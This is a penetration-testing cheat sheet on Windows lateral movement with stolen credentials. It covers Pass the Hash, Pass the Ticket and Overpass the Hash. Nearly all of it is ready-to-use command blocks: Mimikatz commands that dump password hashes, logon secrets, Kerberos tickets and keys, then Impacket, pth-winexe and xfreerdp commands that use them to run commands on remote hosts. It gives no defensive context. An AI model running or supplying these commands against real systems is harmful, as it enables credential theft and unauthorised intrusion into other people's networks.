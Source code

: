 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

* NTLM based
* Requires the SMB port to be reachable on the target
* The user/service must have admin rights on the target machine

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Run on Windows

```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```

### Run on Linux

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#rdp
xfreerdp /u:Administrator /pth:<ntlm> /d:<domain> /v:<target>
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

* Kerberos based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited even if the current user/service is not an admin on the target machine

```
sekurlsa::tickets /export
```

### Run on Windows

```
kerberos::ptt <.krbi file>

.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```

### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## OverPass the Hash / Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES keys, DES keys or password. The obtained TGT token can then be used to access other machines.

* Kerberos Based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited starting from NTLM, secret keys or password (see [password to NTLM](../local-credentials.md#ntlm-from-password))
* Can be exploited even if the current user/service is not an admin on the target machine
* Requests a new TGT, as such the attack is not limited to the tickets stored in memory

### Run on Windows

From AES/DES keys (Pass the Key)

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /des:<hash> /run:"<cmd>"
```

From NTLM (Overpass the hash)

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords

sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:"<cmd>"      #from NTLM
sekurlsa::pth /user:<user> /domain:<domain> /rc4:<NT hash> /run:"<cmd>"    #from NT
```

Pivoting

```
klist #verify the creation of ticket

.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```

### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```
